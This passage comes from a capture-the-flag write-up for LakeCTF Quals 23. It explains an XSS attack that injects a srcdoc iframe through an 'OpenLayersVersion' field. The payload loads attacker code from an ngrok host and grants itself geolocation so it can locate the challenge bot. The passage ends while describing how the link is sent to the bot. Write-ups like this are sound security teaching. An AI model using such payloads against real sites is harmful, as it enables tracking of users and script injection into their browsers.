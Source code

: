 **XSS payload in `OpenLayersVersion`:**
```html
"srcdoc="&lt;iframe src&equals;&quot;https&colon;&sol;&sol;ed80-{Redacted}&period;ngrok-free&period;app&sol;payload&period;html&quot; allow&equals;&quot;geolocation &ast;&quot;&gt;&lt;&sol;iframe&gt;" allow="geolocation *"
```

**Convert HTML entities back to text:**
```html
"srcdoc="<iframe src="https://ed80-{Redacted}.ngrok-free.app/payload.html" allow="geolocation *"></iframe>" allow="geolocation *"
```

In this XSS payload, we inject the `srcdoc` attribute into the `<iframe>` tag. **Inside that `srcdoc` attribute, we create a new `<iframe>` element with `src` that points to our `payload.html`, geolocate JavaScript code.**

However, since the bot's Chrome profile only grant origin `https://chall.polygl0ts.ch:9011` able to geolocate, **we have to use `allow="geolocation *"` in our injected `<iframe>`, so that we can geolocate the bot in any origin.** (see [https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Permissions-Policy/geolocation](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Permissions-Policy/geolocation) for more details.)

- **Create a new bot with a new account, so that we can know the bot's new account username:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/LakeCTF-Quals-23/images/Pasted%20image%2020231106005135.png)

- **Send the XSS payload challenge link to the bot:**

